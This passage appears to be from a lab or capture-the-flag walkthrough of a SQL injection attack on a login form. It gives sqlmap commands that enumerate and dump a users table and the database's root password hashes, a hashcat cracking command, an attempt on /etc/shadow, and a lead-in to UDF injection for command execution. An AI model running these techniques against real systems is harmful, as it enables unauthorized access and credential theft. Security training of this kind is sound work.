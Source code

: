 Hm, looks like we can't hit /etc/shadow.  Weird.  Lets move on to rapidly enumerating the back end.  I switched over to sqlmap to give more info on the backend.  We already know the vulnerable form, we know the POST format (from our Burp session), and we know the database (from UNION queries above) so lets plug that in for some interesting stuff.

```
> python sqlmap.py -u 'http://10.10.10.100/login.php' --data='email=bleh&pass=bleh&submit=Login&submitted=True' -p 'email' --tables -D 'ch16'
Database: ch16
Table: users
```

One table.  Let's check it out:

```
> python sqlmap.py -u 'http://10.10.10.100/login.php' --data='email=bleh&pass=bleh&submit=Login&submitted=TRUE' -p 'email' --columns -T 'users' --dump    
```

This gave me a single user, 'Dan', with a user level 0 and his hash: `c2c4b4e51d9e23c02c15702c136c3e950ba9a4af`

I let sqlmap run its own cracker against the hash, then dumped it into oclHashCat:  
`cudaHashCat-plus64 -m 300 -a 3 -n 50 --gpu-watchdog=100 --force hash.txt ?l?l?l?l?l?l?l?l`

I then dumped database users to see what was there, and what the hashes were (assumed sha1(sha1(pass)), but you never know)

```
> python sqlmap.py -u 'http://10.10.10.100/login.php' --data='email=bleh&pass=bleh&submit=Login&submitted=TRUE' -p 'email' --users
database management system users [108]:                                                              
          [*] 'debian-sys-maint'@'localhost'
          [*] 'root'@'127.0.0.1'
          [*] 'root'@'localhost'
          [*] 'root'@'web'
          
> python sqlmap.py -u 'http://10.10.10.100/login.php' --data='email=bleh&pass=bleh&submit=Login&submitted=TRUE' -p 'email' --passwords
          [23:11:18] [INFO] fetching database users password hashes
          [23:11:18] [INFO] the SQL query used returns 4 entries
          [23:11:18] [INFO] retrieved: "root","*248E4800AB95A1E412A83374AD8366B0C0780FFF"
          [23:11:18] [INFO] retrieved: "root","*248E4800AB95A1E412A83374AD8366B0C0780FFF"                      
          [23:11:18] [INFO] retrieved: "root","*248E4800AB95A1E412A83374AD8366B0C0780FFF"                      
          [23:11:18] [INFO] retrieved: "debian-sys-maint","*9366FE2112E650C8E5523AE337B10A625C727943" 
```

Pretty much what I expected.  At this point I figured the next best thing to try, with my root privileges and all, is UDF injection.  If you're unfamiliar with UDF's, here's a very brief breakdown: a user defined function is a way to extend the functionality of a database by providing a function that's able to be evaluated by the backend database server.  In our case, we want something akin to an eval() or exec().  This can be done with the lib_mysqludf_sys library.  If you want more information on UDF injection, read [this](https://www.blackhat.com/presentations/bh-europe-09/Guimaraes/Blackhat-europe-09-Damele-SQLInjection-whitepaper.pdf) fantastic paper from BlackHat 2009 by Damele. 
